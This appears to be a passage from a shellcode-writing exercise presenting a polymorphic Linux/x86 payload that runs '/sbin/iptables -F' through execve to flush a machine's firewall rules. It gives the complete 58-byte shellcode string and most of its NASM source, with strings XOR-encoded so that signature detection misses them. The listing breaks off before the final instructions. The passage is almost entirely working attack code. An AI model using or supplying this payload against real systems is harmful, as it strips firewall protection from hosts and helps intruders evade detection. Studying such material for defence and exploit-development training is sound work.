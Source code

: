 These instructions employ `execve` to run the command `///sbin/iptables -F`.

## Polymorphic Shellcode

Follows the polymorphic version of the shellcode:

```nasm
; Title: Linux/x86 - iptables --flush
; Author: Robert C. Raducioiu
; Web: rbct.it
; Reference: http://shell-storm.org/shellcode/files/shellcode-825.php
; Shellcode: "\x31\xdb\xf7\xe3\x52\x66\xbf\x2d\x46\x66\x57\x89\xe7\x52\xbe\x74\x63\x62\x72\x52\x68\x62\x6c\x65\x73\x68\x1d\x13\x16\x13\x31\x34\x24\x68\x62\x69\x6e\x2f\x68\x5b\x4c\x4d\x01\x31\x34\x24\x89\xe3\x52\x57\x53\xb0\x0a\x40\x54\x59\xcd\x80"
; Length: 58 bytes

global _start

section .text

_start:

    ; clear EBX, EAX, and EDX
    xor ebx, ebx
    mul ebx
    
    ; instead of pushing EAX, push EDX
    push edx

    ; push word 0x462d
    ; instead of pushing the WORD 0x462d, use two steps
    mov di, 0x462d
    push di

    ; use edi instead of esi
    mov edi,esp
    
    ; use EBX or EDX instead of EAX
    push edx

    ; XOR key ('rbct')
    mov esi, 0x72626374

    ; NULL DWORD acting as the string terminator for
    ;   the path of the executable
    push edx

    push 0x73656c62
    
    push 0x1316131d
    xor [esp], esi

    push 0x2f6e6962

    push 0x014d4c5b
    xor [esp], esi

    ; save the pointer to the string into EBX
    push esp
    pop ebx

    ; instead of 'push eax' use 'push edx', as they are both set to 0x0 
    push edx

```